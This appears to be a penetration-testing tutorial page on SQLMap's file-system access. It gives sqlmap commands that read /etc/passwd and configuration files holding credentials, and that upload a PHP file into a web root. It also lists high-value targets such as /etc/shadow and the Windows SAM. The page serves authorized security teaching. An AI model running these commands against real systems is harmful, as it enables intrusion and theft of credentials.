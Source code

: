 ```yaml
---
title: File System Access
description: Learn how to use SQLMap to access the target's file system
---
```


# File System Access with SQLMap

SQLMap provides powerful capabilities to interact with the target server's file system through SQL injection vulnerabilities. This section covers how to read, write, and execute files on the target system.

<Note title="Warning" type="danger">
These techniques should only be used with explicit permission during authorized penetration testing. Unauthorized access to file systems is illegal in most jurisdictions.
</Note>

## Reading Files

<Tabs defaultValue="basic" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="basic">Basic Usage</TabsTrigger>
    <TabsTrigger value="advanced">Advanced Options</TabsTrigger>
    <TabsTrigger value="examples">Real-World Examples</TabsTrigger>
  </TabsList>
  <TabsContent value="basic">
    ### Basic File Reading

    To read files from the target system, use the `--file-read` parameter:

    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd"
    ```

    SQLMap will attempt to retrieve the specified file using the SQL injection vulnerability. The file will be stored in the output directory (default: `~/.sqlmap/output/`).
  </TabsContent>
  <TabsContent value="advanced">
    ### Advanced File Reading Options

    SQLMap offers several options to customize file reading:

    ```bash
    # Read multiple files
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" --file-read="/etc/hosts"

    # Specify output directory
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" -o

    # Use a specific technique
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" --technique=E
    ```

    The `-o` flag enables all optimization features, which can help with retrieving larger files more efficiently.
  </TabsContent>
  <TabsContent value="examples">
    ### Real-World Examples

    During penetration testing, you might want to retrieve configuration files that could contain sensitive information:

    ```bash
    # Web server configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/apache2/apache2.conf"

    # PHP configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/php/7.4/apache2/php.ini"

    # Web application configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/var/www/html/config.php"
    ```

    These files often contain database credentials, API keys, and other sensitive information.
  </TabsContent>
</Tabs>

## Writing Files

<Stepper>
  <StepperItem title="Prepare Your File">
    First, create the file you want to upload to the target system. For example, a simple PHP info script:
    
    ```php
    <?php phpinfo(); ?>
    ```
    
    Save this as `info.php` on your local machine.
  </StepperItem>
  <StepperItem title="Upload the File">
    Use the `--file-write` and `--file-dest` parameters to upload the file:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --file-write="info.php" --file-dest="/var/www/html/info.php"
    ```
    
    SQLMap will attempt to write your local file to the specified destination on the target server.
  </StepperItem>
  <StepperItem title="Verify the Upload">
    After uploading, verify that the file was successfully written by accessing it through the web browser:
    
    ```
    http://target.com/info.php
    ```
    
    If the PHP info page displays, the file was successfully uploaded and is executable.
  </StepperItem>
</Stepper>

## Common File System Targets

When accessing a target's file system, certain files and directories are particularly valuable for penetration testers:

<div className="grid grid-cols-1 md:grid-cols-2 gap-4 mt-6">
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Linux Systems</h3>
    <ul className="list-disc pl-5 mt-2">
      <li>/etc/passwd - User accounts</li>
      <li>/etc/shadow - Password hashes</li>
      <li>/etc/hosts - Host mappings</li>
      <li>/etc/apache2/apache2.conf - Web server config</li>
      <li>/var/www/html/ - Web root directory</li>
    </ul>
  </div>
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Windows Systems</h3>
    <ul className="list-disc pl-5 mt-2">
      <li>C:\Windows\System32\drivers\etc\hosts</li>
      <li>C:\inetpub\wwwroot\web.config</li>
      <li>C:\Windows\win.ini</li>
      <li>C:\Windows\repair\sam</li>
      <li>C:\xampp\htdocs\ - Common web root</li>
    </ul>
  </div>
</div>

## Directory Structure Example

Below is an example of a typical web application directory structure you might encounter:

```
/var/www/html/
├── index.php
├── config/
│   ├── database.php
│   └── settings.php
├── includes/
│   ├── header.php
│   └── footer.php
├── assets/
│   ├── css/
│   ├── js/
│   └── images/
└── uploads/
    └── user_files/
```

<Note title="Pro Tip" type="success">
When exploring a target's file system, start with configuration files as they often contain credentials and other sensitive information. Web server logs can also reveal valuable information about the application's behavior and potential vulnerabilities.
</Note>

